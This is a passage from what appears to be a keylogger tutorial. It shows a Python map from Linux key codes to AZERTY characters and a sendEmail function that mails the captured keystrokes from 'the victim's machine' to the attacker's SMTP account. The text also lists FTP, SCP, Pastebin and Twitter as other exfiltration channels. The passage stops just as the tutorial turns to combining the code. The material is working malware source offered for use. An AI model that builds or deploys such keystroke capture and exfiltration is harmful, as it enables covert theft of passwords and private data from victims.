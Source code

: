 We will need now to convert the value into a character. To do this we will simply define an "`array`" of all the possible values and the respective character. If you want to get a complete list of value, I recommend you to have a look in this [GitHub](https://github.com/torvalds/linux/blob/master/include/uapi/linux/input-event-codes.h)) repository which gives the following python dictionary slightly adapted for an **azerty** keyboard:

```bash
qwerty_map = {
    2: "1", 3: "2", 4: "3", 5: "4", 6: "5", 7: "6", 8: "7", 9: "8", 10: "9",
    11: "0", 12: "-", 13: "=", 14: "[BACKSPACE]", 15: "[TAB]", 16: "a", 17: "z",
    18: "e", 19: "r", 20: "t", 21: "y", 22: "u", 23: "i", 24: "o", 25: "p", 26: "^",
    27: "$", 28: "\n", 29: "[CTRL]", 30: "q", 31: "s", 32: "d", 33: "f", 34: "g",
    35: "h", 36: "j", 37: "k", 38: "l", 39: "m", 40: "ù", 41: "*", 42: "[SHIFT]",
    43: "<", 44: "w", 45: "x", 46: "c", 47: "v", 48: "b", 49: "n", 50: ",",
    51: ";", 52: ":", 53: "!", 54: "[SHIFT]", 55: "FN", 56: "ALT", 57: " ", 58: "[CAPSLOCK]"
}
```

* * *

### How To Retrieve The Data?

We now know how to capture and store the data but there is still a problem. The ideal would be not to have to reconnect to the victim's machine to catch the data collected by the **keylogger**.

There are lots of techniques to achieve this! We can, for example, send the data over FTP, SSH, SCP, send it on Pastebin or either on Twitter.

For this tutorial, we will see the mails option, since it's something that Python allows you to do.

```bash
def sendEmail(message):
    msg = MIMEMultipart()
    password = PASS
    msg['From'] = EMAIL
    msg['To'] = EMAIL
    msg['Subject'] = "Log clavier"
    msg.attach(MIMEText(message, 'plain'))
    server = smtplib.SMTP(SERVER)
    if USE_TLS is True:
        server.starttls()
    server.login(msg['From'], password)
    server.sendmail(msg['From'], msg['To'], msg.as_string())
    server.quit()
```

**What we do is rather explicit**

- Create a mail server
- Fill in our mail (We consider that we send an email to ourselves)
- Connect to our SMTP server
- Send the string

* * *

### Wrap All The Code Together
